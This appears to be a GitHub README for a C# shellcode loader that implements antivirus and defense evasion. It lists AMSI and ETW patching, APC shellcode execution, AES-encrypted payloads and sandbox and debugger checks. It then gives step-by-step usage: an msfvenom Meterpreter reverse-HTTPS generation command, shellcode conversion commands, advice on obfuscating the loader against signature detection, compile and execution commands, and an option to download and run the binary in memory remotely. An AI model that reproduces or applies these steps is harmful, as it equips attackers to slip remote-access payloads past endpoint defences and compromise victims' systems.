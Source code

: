 ### C# ShellCode Loader 3
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode execution using Asynchronous Procedure Call (APC) and the NtTestAlert function
  - AMSI bypass (patching technique)
  - ETW bypass in user-mode (patching 'EtwEventWrite')
  - Shellcode encryption (AES-256 / CBC mode)
  - Shellcode handling => the encrypted shellcode is Base64-encoded and loaded from a local file
  - Dynamic API resolution (via GetProcAddress and LoadLibrary)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Basic sandbox detection & evasion
    - Terminates execution if the host Windows machine is not joined to a specific domain
    - Terminates execution if a debugger is detected (basic anti-debugging check)
  - Supports shellcodes generated by multiple Command-and-Control (C2) frameworks such as Metasploit and Havoc
    
#### USAGE
  - STEP 1. Generate a Csharp shellcode with your favorite C2 framework or generate a "raw" shellcode and then convert it to the Csharp format.
```
Examples
[*] METASPLOIT C2 Framework 
    $ msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o stageless-shellcode.bin

[*] HAVOC C2 Framework 
    Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64; Indirect Syscall enabled; no sleep obfuscation; amsi/etw patching technique: hardware breakpoints)
    Then convert the raw shellcode to the Csharp format:
    > Manual option:
      @Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2
      @Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3
   > Or use a tool like "SUPERNOVA" to convert it (SuperNova is a shellcode encryptor & obfuscator tool - https://github.com/nickvourd/Supernova)
``` 

  - STEP 2. Encrypt the shellcode using AES-256 encryption in CBC mode, then Base64-encode the encrypted output and save it to a file.
 ```
Examples
[*] AES encryption code - https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab4/3.cs
[*] Base64 encoding
    byte[] EncryptedShellcodeBytes = { ... };
    string Base64EncodedData = Convert.ToBase64String(EncryptedShellcodeBytes);
    Console.WriteLine(Base64EncodedData);
```
  - STEP 3. OPSEC requirements - Manually obfuscate the C# shellcode loader file
  	- Rename the namespace, classes, methods, and variables.
  	- Remove all existing comments and insert fake ones.
    - Remove all console output messages (i.e., Console.WriteLine("text")).
  	- Modify the code structure or logic slightly if needed to evade signature-based detection.

  - STEP 4. Compile the C# shellcode loader 
```  
[*] Example with "Developer PowerShell for VS 2022" - Microsoft (R) Visual C# Compiler
    Command: csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs
``` 
  - STEP 5. Optional Actions
  	- You may compress and obfuscate the shellcode loader executable using a packer such as ConfuserEx. However, this step is not strictly necessary to bypass most AV solutions if you performed sufficient manual obfuscation in Step 3.
  	- Alternatively, you may choose to remotely download and execute the C# binary in memory using PowerShell and reflection-based code loading. This approach avoids writing the binary to disk, enhancing stealth and reducing forensic traces.
  - STEP 6. Execution
```
[*] Command: loader.exe <domain name> <C:\filepath\base64-shellcode-file.txt> <AES key>
[*] Command: loader.exe lab.local C:\temp\base64-shellcode.txt superkey
    Note:
    > Argument 1 = The domain name of the target Windows machine. Used for sandbox detection/evasion by verifying domain membership.
    > Argument 2 = The file path to the AES-256 encrypted shellcode, which must be Base64-encoded (i.e., C:\path\file.txt or .\path\file.txt).
    > Argument 3 = The AES passkey used for encryption and decryption.
``` 
#### LICENSE
  - GNU General Public License v3.0
